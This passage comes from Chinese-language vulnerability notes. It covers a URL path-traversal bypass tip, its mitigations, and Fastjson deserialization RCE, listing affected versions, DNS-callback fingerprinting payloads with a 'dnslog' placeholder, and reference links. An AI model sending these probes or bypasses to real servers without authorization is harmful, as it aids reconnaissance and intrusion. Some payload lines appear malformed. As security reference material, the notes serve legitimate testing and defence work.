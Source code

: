 **7\. 利用技巧**

1.url 中间可以尝试添加 `../` , 不限于这个漏洞, 可能会有惊喜, 错误的 Nginx 配置也会造成新的漏洞

关于 url 解析的问题可以参考以下链接

A New Era of SSRF – Exploiting URL Parser in Trending Programming Languages!  
[https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

Tomcat URL 解析差异性导致的安全问题 – 先知社区  
[https://xz.aliyun.com/t/7544](https://xz.aliyun.com/t/7544)

**8\. 防护方法**

1\. 升级 1.5.2 版本及以上

2\. 尽量避免使用 \* 通配符作为动态路由拦截器的 URL 路径表达式.

Fastjson 反序列化远程代码执行漏洞
---------------------

**1\. 漏洞简介**

Fastjosn 无疑是这两年的漏洞之王, 一手反序列化 RCE 影响无数厂商, 目前 1.2.48 以下版本稳定受影响, 1.2.68 以下版本开启 Autotype 会受到影响

(不排除传说中的 1.2.67 以下 RCE 漏洞, 期待八仙过海)

**2\. 影响组件**

Fastjson <1.2.48 (<1.2.68?)

**3\. 漏洞指纹**

可以通过 DNS 回显的方式检测后端是否使用 Fastjson

```
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set\[{"@type":"java.net.URL", "val":"dnslog"}\]
Set\[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0


```

可以通过 DOS 时间延迟或者报错回显的方式检测

无损检测 Fastjson DoS 漏洞以及盲区分 Fastjson 与 Jackson 组件 – 斗象能力中心 (<1.2.60)  
[https://blog.riskivy.com/%e6%97%a0%e6%8d%9f%e6%a3%80%e6%b5%8bfastjson-dos%e6%bc%8f%e6%b4%9e%e4%bb%a5%e5%8f%8a%e7%9b%b2%e5%8c%ba%e5%88%86fastjson%e4%b8%8ejackson%e7%bb%84%e4%bb%b6/](https://blog.riskivy.com/%e6%97%a0%e6%8d%9f%e6%a3%80%e6%b5%8bfastjson-dos%e6%bc%8f%e6%b4%9e%e4%bb%a5%e5%8f%8a%e7%9b%b2%e5%8c%ba%e5%88%86fastjson%e4%b8%8ejackson%e7%bb%84%e4%bb%b6/)

fastjson < 1.2.66 版本最新漏洞分析  
[https://mp.weixin.qq.com/s/RShHui\_TJeZM7-frzCfH7Q](https://mp.weixin.qq.com/s/RShHui_TJeZM7-frzCfH7Q)
